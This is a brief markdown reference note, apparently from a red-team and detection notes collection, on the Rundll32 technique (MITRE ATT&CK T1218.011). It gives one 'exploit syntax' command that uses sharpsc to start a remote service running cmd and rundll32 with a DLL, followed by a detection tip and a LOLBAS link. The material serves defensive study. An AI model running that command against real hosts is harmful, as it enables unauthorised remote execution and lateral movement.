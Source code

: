 # [Rundll32](https://attack.mitre.org/techniques/T1218/011/)

## Exploit syntax:

```powershell 
sharpsc SERVER01 service "cmd /c rundll32.exe test.dll,Ep" domain username password
```
---

## Detection Technique:
* Investigate uses of rundll32 to start non typical processes such as cmd.exe or to access non typical dlls.

---

## Resource
* https://lolbas-project.github.io/lolbas/Binaries/Rundll32/